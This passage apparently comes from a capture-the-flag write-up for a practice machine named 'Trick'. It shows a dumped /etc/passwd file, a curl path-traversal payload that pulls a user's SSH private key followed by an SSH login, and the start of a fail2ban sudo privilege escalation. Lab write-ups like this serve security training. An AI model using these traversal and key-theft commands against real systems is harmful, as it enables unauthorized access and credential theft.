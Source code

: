 ```bash
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
mysql:x:117:125:MySQL Server,,,:/nonexistent:/bin/false
sshd:x:118:65534::/run/sshd:/usr/sbin/nologin
postfix:x:119:126::/var/spool/postfix:/usr/sbin/nologin
bind:x:120:128::/var/cache/bind:/usr/sbin/nologin
michael:x:1001:1001::/home/michael:/bin/bash
```

# User
From here, I'm able to exploit the PHP page `index.php` to bypass the restriction and access the user `michael` RSA key then SSH into the machine with it:
```bash
$ curl --output michael.id_rsa 'http://preprod-marketing.trick.htb/index.php?page=....//....//....//home/michael/.ssh/id_rsa'
$ chmod 600 michael.id_rsa
$ ssh -i michael.id_rsa michael@trick.htb
```

# Root
Obtaining root was a bit tricky, the first thing to notice is that you have access to run a program `fail2ban` as root:
```bash
 sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

From here, it requires investigating what this `fail2ban` program is. It turns out that it's a program used to ban IP addresses due to too many failed attempts. It runs out of `/etc/fail2ban`. Looking at the directory it runs out of, I noticed something odd:
```bash
$ ls -larth /etc/fail2ban/
total 76K
drwxr-xr-x 126 root root      12K Jun 24 18:40 ..
-rw-r--r--   1 root root      738 Jun 24 20:09 paths-opensuse.conf
-rw-r--r--   1 root root      573 Jun 24 20:09 paths-debian.conf
-rw-r--r--   1 root root     2.8K Jun 24 20:09 paths-common.conf
-rw-r--r--   1 root root      645 Jun 24 20:09 paths-arch.conf
-rw-r--r--   1 root root      23K Jun 24 20:09 jail.conf
drwxr-xr-x   2 root root     4.0K Jun 24 20:09 fail2ban.d
-rw-r--r--   1 root root     2.3K Jun 24 20:09 fail2ban.conf
drwxrwx---   2 root security 4.0K Jun 24 20:09 action.d
drwxr-xr-x   2 root root     4.0K Jun 24 20:09 jail.d
drwxr-xr-x   3 root root     4.0K Jun 24 20:09 filter.d
drwxr-xr-x   6 root root     4.0K Jun 24 20:09 .
```
